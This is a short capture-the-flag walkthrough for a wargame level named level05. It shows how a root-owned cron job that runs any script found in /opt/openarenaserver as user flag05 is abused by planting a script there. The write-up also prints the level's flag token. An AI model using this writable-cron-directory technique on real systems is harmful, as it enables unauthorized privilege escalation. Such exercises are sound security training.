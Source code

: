 When logged on as `level05` we have a prompt telling us we have mail. We check `/var/mail` and find a file `level05`:
```
$> cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
This is a cron instruction to launch the script `openarenaserver` as `flag05` every two minutes.

We check the script:
```
$> cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

It will run all the scripts in the `/opt/openarenaserver` folder, and delete them afterwards.  
To use this to our advantage, we write the following script in `/opt/openarenaserver`: `getflag > /tmp/flag`.  
We wait for the crontab to run (the script will be deleted), and then `cat /tmp/flag`: `Check flag.Here is your token : viuaaale9huek52boumoomiocv`
